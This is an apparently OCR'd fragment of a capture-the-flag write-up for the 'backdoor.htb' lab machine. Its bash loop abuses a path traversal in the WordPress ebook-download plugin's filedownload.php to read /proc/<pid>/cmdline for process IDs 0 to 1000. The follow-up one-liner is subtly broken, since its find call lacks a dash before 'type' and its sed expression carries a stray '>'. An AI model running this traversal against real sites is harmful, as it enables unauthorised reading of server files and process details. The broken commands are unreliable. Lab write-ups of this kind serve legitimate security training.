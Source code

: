 #### Enum procs
```bash
for i in $(seq 0 1000); do curl "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/${i}/cmdline" --output - | cut -d'/' -f 8- | sed 's/<script.*//g>' > $i; done
```
`for i in $(find . type f -size +20c); do cat $i | sed 's/cmdline/\t/g'; done`